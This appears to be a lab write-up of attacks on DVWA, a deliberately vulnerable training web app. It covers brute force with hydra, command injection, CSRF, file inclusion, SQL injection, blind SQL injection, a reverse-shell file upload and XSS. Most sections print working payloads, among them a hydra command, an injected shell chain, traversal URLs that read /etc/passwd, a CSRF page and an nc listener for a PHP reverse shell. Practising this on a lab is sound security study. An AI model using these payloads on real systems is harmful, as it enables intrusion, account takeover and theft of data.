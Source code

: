 # DVWA

## brute force

the URL pattern for the brute-force site was `$MACHINE_IP/dvwa/vulnerabilities/brute/?username=$USERNAME&password=$PASSWORD&Login=Login`

so, i used hydra like this to brute-force and get the admin password

`hydra $MACHINE_IP -V -l admin -P /usr/share/wordlists/rockyou.txt http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: PHPSESSID=d006e679c1ab21fcc268029736bd7d67; security=low" -t 5 -I`

## command execution

* we have the option to ping any IP address
* so, the backend of this feature be something like

```bash
ping $USER_INPUT_IP
```

* in bash, multiple commands can be executed in a single line using `;` (used to end the current command)
* therefore, we can try entering this as in the IP input area

```bash
; pwd; whoami; uname -a
```

sucessfully, we get

![command execution](assets/dvwa/comm_exec.png)

command execution can further be used to obtain a **bash reverse shell** and proceed with privilege execution to get complete access

## csrf

* we are presented with the option to change our password
* to make things easier, the old password isn't even required here
* upon intercepting the password in burp, we notice that a GET request is sent for the password change with query strings

![burp intercept of password change request](assets/dvwa/csrf_burp.png)

* therefore, a simple-looking website that loads an 'image' with source as the password URL will do

example code used to achieve csrf:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DVWA CSRF Test</title>
</head>
<body>
    <img src="http://$MACHINE_IP/dvwa/vulnerabilities/csrf/?password_new=password123&password_conf=password123&Change=Change">
</body>
</html>
```

therefore, on visiting the html file through browser, a request is sent to the URL with the new password and the password is changed

![csrf execution](assets/dvwa/csrf.png)

## file inclusion

**URL structure:**

```http
http://$MACHINE_IP/dvwa/vulnerabilities/fi/?page=include.php
```

it is instructed to replace `index.php` with the file we need to display

a general POC for testing file inclusion is to display `/etc/passwd` which can then be used to access other sensitive files and maybe upload a malicious file (rev shell usually) to access later (ref [upload](#i))

**attempt 1:**

```http
http://$MACHINE_IP/dvwa/vulnerabilities/fi/?page=../../etc/passwd
```

gives us this

![../../etc/passwd](assets/dvwa/fi1.png)

this makes it clear that we have to go back **5 directories** before we reach the root

**attempt 2:**

```http
http://$MACHINE_IP/dvwa/vulnerabilities/fi/?page=../../../../../etc/passwd
```

gives us this

![../../../../../etc/passwd](assets/dvwa/fi2.png)

## sqli

entering `1` gives us the ID that we entered, first name and last name of the person with that ID

![user id 1](assets/dvwa/sqli1.png)

therfore, the sql query must be something similar to

```sql
SELECT FIRST_NAME, LAST_NAME FROM Accounts WHERE ID='$USER_INPUT_ID'
```

so we can bypass it when `$USER_INPUT_ID = 1' OR '1'='1`, giving us this which is always true and will therefore return the details of all the users in the table

```sql
SELECT FIRST_NAME, LAST_NAME FROM Accounts WHERE ID='1' OR '1'='1'
```

![all users](assets/dvwa/sqli2.png)

## blind sqli

blind sqli is when you try 2 different sql queries one where it passes and one where it fails - if the output is different, then the site is vulnerable to sqli

**attempt 1:**

try with a proper input - `2`

![proper input](assets/dvwa/bsqli1.png)

as expected, just the details of the user with id = 2

**attempt 2:**

try with a query that would fail - `2 AND '1'='2'-- -`

![failed query](assets/dvwa/bsqli2.png)

no output

**attempt 3:**

not necessary, but try with a query that will pass - `2 AND '1'='1'-- -`

![successful query](assets/dvwa/bsqli3.png)

same as **attempt 1** but the id field contains the query as well

**breakin:**

now that we know that site is vulnerable to sqli, we can try this - `2 OR '1'='1'-- -`

![breakin](assets/dvwa/bsqli4.png)

details of all the users

## upload

![rev shell obtained](assets/dvwa/revshell.png)

i grabbed this reverse shell from `/usr/share/webshells/php/php-backdoor-shell.php`, edited the values and uploaded it

in the background, i started netcat with `nc -lvnp 1234`

i received errors, so i figured the web app must be splitting the file at `.` and checking the extension for image file types

so, i renamed the shell from `rs.php` to `rs.png` which didn't work because the webapp expected only `jpeg` files

so finally i tried `rs.jpg` and uploading it hoping the mime-type will be sniffed based on the contents of the file and the rev shell worked as expected

## xss reflected

when we enter this in the text box, we get a popup sucessfully, verifying the presence of reflected XSS (since input data isn't stored)

```html
<script>alert(1)</script>
```

## xss stored

since the `Name` textbox has a character limit, it might not be possible to xss it

moving on, a simple `<script>alert()</script>` in the `Message` textbox works as expected and produces an alert everytime the page is refreshed
